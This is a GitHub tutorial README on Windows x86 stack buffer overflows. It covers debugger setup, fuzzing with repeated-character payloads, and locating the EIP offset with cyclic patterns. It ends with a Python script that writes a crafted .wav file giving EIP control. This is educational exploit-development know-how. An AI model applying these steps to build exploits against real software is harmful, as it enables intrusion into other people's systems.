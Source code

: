 # Windows-Stack-overflow-basics

This is a small repo for Windows Stack-Based Buffer overflow(x86).
<br>

* [Lab Setup](#lab-setup)
<br>

* [Identify the vulnerable field](#reconnaissance)
<br>

# Lab Setup

For the lab i will use a windows 10 machine with:
<br>

## Decompiler and Debuger
[Cutter](https://cutter.re/)

## Debugger and Patcher
[x64dbg](https://x64dbg.com/)
We just need to download from the site and put it in
```cmd
C:\Program Files\x64dbg\
```

## Buffer Overflow Extension
[ERC](https://github.com/Andy53/ERC.Xdbg)
To install it we just need to download the latest .zip folder from the [release page](https://github.com/Andy53/ERC.Xdbg/releases) and extract in:
```cmd
C:\Program Files\x64dbg\x32\plugins\
```
!BE SURE TO DOWNLOAD THE RIGHT VERSION FOR UR DEBUGGER: \_32 for x86 and \_64 for x64!
Once we have done that we can set the output directory in cmd:
```cmd
ERC --config SetWorkingDirectory C:\Users\%USERNAME%\Desktop\
```
Now we are ready to do some Buffer Overflow:

# Reconnaissance

To exploit a Buffer-Overflow vulnerability we need to find one first.
<br>
To do so we need to start our .exe and attach the process in x32dbg:
<br>
In the top left corner of the debugger just click file and the _attatch_ option with the earth icon and this will pop out:
	
![process attach](./pic/attach-process.png)
	
after attaching the process we need to [fuzz](https://www.wired.com/2016/06/hacker-lexicon-fuzzing/) all the input fields that the programm expose.
<br>
If a programm exposes to many fields just go for the ones that expect the smaller input such as

* Date
* Name
* selection fileds (y\n) (m\f)
* File inputs
To fuzz those Fields i will send the most basic payload generated like this:
```bash
python3 -c "print('A'*1000)" 
```
This is for creating file payloads:
```bash
python3 -c "print('A'*1000, file=open('<file_name>', 'w'))" 
```
Once we have sent the data if the programm crashes we need to check the $EIP register.
<br>

If this register is overwrritten with `4141414141` we succesfully find a possible stack overflow field.
<br>

In fact by overwriting the $EIP (the 32 bit version of the `Istruction pointer`) we can controll what the programm will execute next.
<br>

This register keep track of the last istruction that was called so the programm can _return_ the value and continue the exection from the _address_ pointed from the $EIP.
<br>

Although we overwritten the $EIP we don't know how many chars we sent to trigger only the $EIP.
<br>

In fact in order to execute shell code with a Stack-Overflow we need to controll the address that the $EIP will be overwritten with.
<br>

To do so we will use a pattern to fuzz the input fields. We can create them in many ways like msf:
```bash
msf-pattern_create -l 1000
```
or with ERC in the x32dbg terminal
```cmd
ERC --pattern c 1000
```  
To write those patterns to a file we can write a bunch of python code:
```python
payload = bytes(<erc_output>,"utf-8")
with open('<file_name>', 'wb') as f:
	f.write(payload)
```
We now have our file or text payload to fuzz the input.
Once we overwritten the $EIP we will have a random value in the $EIP.
<br>

To understand what is the $EIP offset we need search the value that we got inside the $EIP.
<br>


For example:
	
![eip overwritten](./pic/eip-ow.png)
	
in this case the $EIP is rewritten with `31684630`
<br>

we need to search this number in the pattern that we created:
```bash
msf-pattern_offset -q 31684630
```
output:
```bash
[*] Exact match at offset 4112
```
If we want to search in ERC we can convert those bytes into ascii:
```python
hex_string = "<eip_bytes>"  
byte_string = bytes.fromhex(hex_string)  
ascii_string = byte_string.decode("ASCII")  
print(ascii_string)  
```
output:
```
1hF0
```
and then search them with:
```cmd
ERC --pattern o 1hF0
```
<br>

Now that we can controll the exact value of the $EIP we need to set it to an arbitrary address like this:
```python
def eip_control():
    offset = 4112  #insert the offset
    buffer = b"A"*offset
    eip = b"B"*4  #chose the address that will be written in $EIP
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload) 	#create a file handle and write the payload

eip_control()	#call the function
```
